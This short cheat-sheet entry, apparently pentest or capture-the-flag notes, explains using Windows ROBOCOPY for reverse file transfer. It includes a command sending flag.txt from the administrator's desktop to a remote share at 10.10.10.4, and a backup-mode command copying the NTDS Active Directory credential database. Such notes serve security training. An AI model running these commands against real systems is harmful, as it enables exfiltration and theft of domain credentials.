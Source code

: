 # ROBOCOPY: Reverse File Transfer

1. Files can be copied from a Windows machine **to a file share**, e.g., `\\10.10.10.4\share` by using [ROBOCOPY](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy).  **Multi-threading** can be enabled for higher performance (with `/mt` parameter) and the ability to **restart** the transfer in case it's interrupted can be added (with `/z` parameter)

        robocopy c:\users\administrator\desktop  \\10.10.10.4\share\  flag.txt /mt /z

2. To **backup** files and folders, use the `/B` switch

        robocopy C:\Windows\ntds .\ntds /B /R:1

## References

* https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy